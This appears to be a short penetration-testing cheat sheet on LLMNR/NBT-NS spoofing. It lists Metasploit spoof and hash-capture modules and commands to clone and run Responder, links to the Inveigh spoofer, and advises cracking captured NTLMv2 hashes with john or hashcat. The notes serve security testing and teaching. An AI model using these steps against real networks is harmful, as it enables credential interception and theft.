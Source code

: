 # LLMNR / NBT NS Spoofing

## Metasplpoit

`auxiliary/spoof/llmnr/llmnr_response`   
`auxiliary/spoof/nbns/nbns_response` 

Capture the hashes: 

`auxiliary/server/capture/smb`   
`auxiliary/server/capture/http_ntlm` 

You’ll end up with NTLMv2 hash, use john or hashcat to crack it. 

## Responder

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

```text
git clone https://github.com/lgandx/Responder 
python Responder.py -i local-ip -I eth0 
```

## C\# version - Inveigh

Windows PowerShell ADIDNS/LLMNR/mDNS/NBNS spoofer/man-in-the-middle tool

[https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)

